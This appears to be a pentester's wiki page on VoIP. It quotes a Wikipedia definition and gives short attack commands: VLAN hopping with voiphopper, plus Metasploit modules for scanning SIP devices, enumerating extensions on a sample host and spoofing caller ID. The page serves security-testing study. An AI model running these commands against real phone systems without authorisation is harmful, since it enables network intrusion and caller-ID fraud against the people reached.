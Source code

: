 # VOIP


[Wikipedia - Voice Over IP (VOIP)](https://en.wikipedia.org/wiki/Voice_over_IP) *"Voice over Internet Protocol ([VoIP](https://en.wikipedia.org/wiki/Voice_over_IP#cite_note-2)), also called IP telephony, is a method and group of technologies for [voice calls](https://en.wikipedia.org/wiki/Voice_call "Voice call") for the delivery of [voice communication](https://en.wikipedia.org/wiki/Speech "Speech") sessions over [Internet Protocol](https://en.wikipedia.org/wiki/Internet_Protocol "Internet Protocol") [(IP) networks](https://en.wikipedia.org/wiki/Voice_over_IP#cite_note-Arora_2023_t525-3), such as the [Internet](https://en.wikipedia.org/wiki/Internet "Internet").


[OlivierLaflamme/Cheatsheet-God - Cheatsheet_VOIP.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_VOIP.txt) is the initial starting point for this page, but `SIP != VOIP`, [[SIP]] summarised from [SIP.us sip vs voip article](https://www.sip.us/blog/latest-news/sip-vs-voip-whats-difference/) is the a [Network Protocol]([Network-Protocols]); [[VOIP]] is one of many [[Network-Technologies]] a business may use for human-human communication, and it may use [[SIP]].


## Hacking VOIP

May require techniques from the [[SIP]] page. Directly related VOIP exploitation is detailed below.
#### VLAN Hopping
```bash
modprobe 8021q
```
VoIP Hopper mirrored in [[VOIP]]
```bash
./voiphopper -i eth0 -c 0
./voiphopper -i eth0 -v 20
```

#### Attacking VoIP Using Metasploit 

Mirrored in [[SIP]]

Scanning SIP Enabled Devices
```ruby
use auxiliary/scanner/sip/options
```
Enumerating SIP extensions / Usernames
```ruby
use scanner/sip/enumerator
set RHOSTS 192.168.1.104
set MINEXT 100
set MAXEXT 500
set PADLEN 3
```

Spoofing Caller ID auxiliary
```ruby
use voip/sip_invite_spoof
```

## References

[OlivierLaflamme/Cheatsheet-God - Cheatsheet_VOIP.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_VOIP.txt)
[Wikipedia - Voice Over IP (VOIP)](https://en.wikipedia.org/wiki/Voice_over_IP)
[SIP.us sip vs voip article](https://www.sip.us/blog/latest-news/sip-vs-voip-whats-difference/)